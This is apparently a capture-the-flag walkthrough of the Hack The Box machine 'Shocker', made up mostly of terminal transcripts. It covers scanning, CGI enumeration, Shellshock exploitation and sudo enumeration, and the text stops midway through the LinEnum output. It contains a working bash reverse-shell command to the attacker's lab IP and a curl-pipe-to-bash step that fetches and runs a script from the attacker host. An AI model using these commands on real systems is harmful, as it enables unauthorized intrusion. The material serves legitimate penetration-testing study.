

#### Shocker

- [Attacker Info]()
- [Nmap Scan]()
- [HTTP Enumeration]()
- [Shellshock]()
- [Privilege Escalation]()

###### Attacker Info

```sh
root@kali:~/shocker# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.63  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        inet6 2601:644:8500:d9da::757d  prefixlen 128  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:cd37:ea53:3b4:c9a5  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 765  bytes 810249 (791.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 494  bytes 45784 (44.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 61  bytes 21313 (20.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 61  bytes 21313 (20.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.11  netmask 255.255.254.0  destination 10.10.14.11
        inet6 fe80::59e8:4d22:8c0b:90c9  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1009  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 2  bytes 96 (96.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 176 (176.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/shocker#
```

###### Nmap Scan

```sh
root@kali:~/shocker# nmap -sV -sC -oA shocker.nmap 10.10.10.56

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-17 11:51 EST
Nmap scan report for 10.10.10.56
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.31 seconds
root@kali:~/shocker#
```

###### HTTP Enumeration


```sh
root@kali:~/shocker# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56 -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
=====================================================
^C[!] Keyboard interrupt detected, terminating.
=====================================================
root@kali:~/shocker#
```

```sh
root@kali:~/shocker# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56 -t 25 -s 302,307,200,204,301,403

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,403,302,307
=====================================================
/server-status (Status: 403)
/cgi-bin       (Status: 403)
=====================================================
root@kali:~/shocker#
```


```sh
root@kali:~/shocker# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -t 25 -s 302,307,200,204,301,403 -x sh,pl

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/cgi-bin/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 403,302,307,200,204,301
[+] Extensions   : .sh,.pl
=====================================================
/user.sh (Status: 200)
```

###### Shellshock




```sh
root@kali:/tmp/mozilla_root0# cat user.sh
Content-Type: text/plain

Just an uptime test script

 12:05:42 up 1 day, 22:49,  0 users,  load average: 0.35, 0.18, 0.07


root@kali:/tmp/mozilla_root0#
```


```sh
root@kali:~/shocker# locate nse | grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse
root@kali:~/shocker#
```

```sh
root@kali:~/shocker# nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-17 12:11 EST
Nmap scan report for 10.10.10.56
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.03 seconds
root@kali:~/shocker#
```


```
http://127.0.0.1:8081/cgi-bin/
```


```sh
root@kali:~/shocker# nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-17 12:15 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000043s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.61 seconds
root@kali:~/shocker#
```


```sh
root@kali:~/shocker# vim /usr/share/nmap/scripts/http-shellshock.nse
```


```sh
root@kali:~/shocker# nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-17 12:25 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000042s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at localhost Port 8081</address>
|   </body></html>
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.76 seconds
root@kali:~/shocker#
```


```sh
root@kali:~/shocker# nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-17 12:33 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000033s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     Exploit results:
|       user.sh
|
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.72 seconds
root@kali:~/shocker#
```

[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
bash -i >& /dev/tcp/10.10.14.11/8082 0>&1
```


```sh
root@kali:~/shocker# nc -nlvp 8082
listening on [any] 8082 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.56] 52054
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

###### Privilege Escalation

```sh
root@kali:~/shocker# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-02-17 12:54:06--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.188.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.188.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7926 (7.7K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]   7.74K  --.-KB/s    in 0.001s

2018-02-17 12:54:06 (11.9 MB/s) - ‘LinEnum.sh’ saved [38174]

root@kali:~/shocker#
```

```sh
root@kali:~/shocker# python -m SimpleHTTPServer 8083
Serving HTTP on 0.0.0.0 port 8083 ...
10.10.10.56 - - [17/Feb/2018 12:55:58] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
shelly@Shocker:/usr/lib/cgi-bin$ curl http://10.10.14.11:8083/LinEnum.sh | bash
<-bin$ curl http://10.10.14.11:8083/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  47936      0 --:--:-- --:--:-- --:--:-- 47897

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Sat Feb 17 12:56:21 EST 2018


### SYSTEM ##############################################
Kernel information:
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-96-generic (buildd@lgw01-10) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


Hostname:
Shocker


### USER/GROUP ##########################################
Current user/group info:
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Sun Dec 24 14:43:28 -0500 2017
shelly           tty1                      Fri Sep 22 15:52:14 -0400 2017


Who else is logged on:
 12:56:21 up 1 day, 23:40,  0 users,  load average: 0.24, 0.13, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=108(uuidd) gid=112(uuidd) groups=112(uuidd)
uid=109(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=110(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

Seems we met some admin users!!!

uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash


Super user account(s):
root


We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl


***Possible Sudo PWNAGE!
-rwxr-xr-x 2 root root 1907192 Mar 13  2016 /usr/bin/perl


Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root   root   4.0K Sep 22 12:33 .
drwxr-xr-x 23 root   root   4.0K Sep 22 12:43 ..
drwxr-xr-x  4 shelly shelly 4.0K Sep 22 15:49 shelly


Root is allowed to login via SSH:
PermitRootLogin yes


### ENVIRONMENTAL #######################################
 Environment information:
PWD=/usr/lib/cgi-bin
SHLVL=3
LESSOPEN=| /usr/bin/lesspipe %s
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env


Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


Current umask value:
0022
u=rwx,g=rx,o=rx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Sep 22 12:41 .
drwxr-xr-x 90 root root 4096 Sep 22 15:55 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  191 Sep 22 12:32 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 Sep 22 14:11 .
drwxr-xr-x 90 root root 4096 Sep 22 15:55 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  539 Apr  5  2016 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jun 19  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 26  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 12  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Sep 22 12:28 .
drwxr-xr-x 90 root root 4096 Sep 22 15:55 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Sep 22 12:28 .
drwxr-xr-x 90 root root 4096 Sep 22 15:55 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Sep 22 12:42 .
drwxr-xr-x 90 root root 4096 Sep 22 15:55 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


### NETWORKING  ##########################################
Network & IP info:
ens33     Link encap:Ethernet  HWaddr 00:50:56:b9:f8:be
          inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:f8be/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:f8be/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2823112 errors:0 dropped:103 overruns:0 frame:0
          TX packets:1756237 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:235954482 (235.9 MB)  TX bytes:315837901 (315.8 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:908560 errors:0 dropped:0 overruns:0 frame:0
          TX packets:908560 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:67239504 (67.2 MB)  TX bytes:67239504 (67.2 MB)


ARP history:
? (10.10.10.2) at 00:50:56:aa:d8:f7 [ether] on ens33


Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens33


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      -
tcp        0   9373 10.10.10.56:52054       10.10.14.11:8082        ESTABLISHED 12240/bash
tcp6       0      0 :::2222                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39814       SYN_RECV    -
tcp6       0    451 10.10.10.56:80          10.10.14.11:39800       ESTABLISHED -
tcp6       0    453 10.10.10.56:80          10.10.14.11:39796       ESTABLISHED -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39768       LAST_ACK    -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39772       LAST_ACK    -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39760       LAST_ACK    -
tcp6       0    455 10.10.10.56:80          10.10.14.11:39784       ESTABLISHED -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39762       LAST_ACK    -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39812       SYN_RECV    -
tcp6       0    455 10.10.10.56:80          10.10.14.11:39776       ESTABLISHED -
tcp6       0    452 10.10.10.56:80          10.10.14.11:39798       ESTABLISHED -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39818       SYN_RECV    -
tcp6       0    459 10.10.10.56:80          10.10.14.11:39774       ESTABLISHED -
tcp6       0    448 10.10.10.56:80          10.10.14.11:39804       ESTABLISHED -
tcp6       0    455 10.10.10.56:80          10.10.14.11:39790       ESTABLISHED -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39806       SYN_RECV    -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39758       LAST_ACK    -
tcp6       0    450 10.10.10.56:80          10.10.14.11:39802       ESTABLISHED -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39756       LAST_ACK    -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39822       SYN_RECV    -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39764       LAST_ACK    -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39820       SYN_RECV    -
tcp6       0    452 10.10.10.56:80          10.10.14.11:39786       ESTABLISHED -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39816       SYN_RECV    -
tcp6       0    459 10.10.10.56:80          10.10.14.11:39782       ESTABLISHED -
tcp6       0    460 10.10.10.56:80          10.10.14.11:39778       ESTABLISHED -
tcp6       0    454 10.10.10.56:80          10.10.14.11:39788       ESTABLISHED -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39770       LAST_ACK    -
tcp6       0    458 10.10.10.56:80          10.10.14.11:39780       ESTABLISHED -
tcp6       0      1 10.10.10.56:80          10.10.14.11:39766       LAST_ACK    -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39810       SYN_RECV    -
tcp6       0      0 10.10.10.56:80          10.10.14.11:39808       SYN_RECV    -
tcp6       0    458 10.10.10.56:80          10.10.14.11:39792       ESTABLISHED -
tcp6       0    458 10.10.10.56:80          10.10.14.11:39794       ESTABLISHED -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name


### SERVICES #############################################
Running processes:
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  1.2  37960  5936 ?        Ss   Feb15   0:06 /sbin/init
root          2  0.0  0.0      0     0 ?        S    Feb15   0:00 [kthreadd]
root          3  0.0  0.0      0     0 ?        S    Feb15   0:04 [ksoftirqd/0]
root          4  0.0  0.0      0     0 ?        S    Feb15   0:55 [kworker/0:0]
root          5  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kworker/0:0H]
root          7  0.0  0.0      0     0 ?        S    Feb15   0:04 [rcu_sched]
root          8  0.0  0.0      0     0 ?        S    Feb15   0:00 [rcu_bh]
root          9  0.0  0.0      0     0 ?        S    Feb15   0:00 [migration/0]
root         10  0.0  0.0      0     0 ?        S    Feb15   0:00 [watchdog/0]
root         11  0.0  0.0      0     0 ?        S    Feb15   0:00 [kdevtmpfs]
root         12  0.0  0.0      0     0 ?        S<   Feb15   0:00 [netns]
root         13  0.0  0.0      0     0 ?        S<   Feb15   0:00 [perf]
root         14  0.0  0.0      0     0 ?        S    Feb15   0:00 [khungtaskd]
root         15  0.0  0.0      0     0 ?        S<   Feb15   0:00 [writeback]
root         16  0.0  0.0      0     0 ?        SN   Feb15   0:00 [ksmd]
root         17  0.0  0.0      0     0 ?        S<   Feb15   0:00 [crypto]
root         18  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kintegrityd]
root         19  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         20  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kblockd]
root         21  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ata_sff]
root         22  0.0  0.0      0     0 ?        S<   Feb15   0:00 [md]
root         23  0.0  0.0      0     0 ?        S<   Feb15   0:00 [devfreq_wq]
root         27  0.0  0.0      0     0 ?        S    Feb15   0:00 [kswapd0]
root         28  0.0  0.0      0     0 ?        S<   Feb15   0:00 [vmstat]
root         29  0.0  0.0      0     0 ?        S    Feb15   0:00 [fsnotify_mark]
root         30  0.0  0.0      0     0 ?        S    Feb15   0:00 [ecryptfs-kthrea]
root         46  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kthrotld]
root         47  0.0  0.0      0     0 ?        S<   Feb15   0:00 [acpi_thermal_pm]
root         48  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         49  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         50  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         51  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         52  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         53  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         54  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         55  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root         56  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_0]
root         57  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_0]
root         58  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_1]
root         59  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_1]
root         65  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ipv6_addrconf]
root         78  0.0  0.0      0     0 ?        S<   Feb15   0:00 [deferwq]
root         79  0.0  0.0      0     0 ?        S<   Feb15   0:00 [charger_manager]
root        129  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_2]
root        130  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_2]
root        131  0.0  0.0      0     0 ?        S<   Feb15   0:00 [vmw_pvscsi_wq_2]
root        132  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root        145  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kpsmoused]
root        149  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ttm_swap]
root        168  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_3]
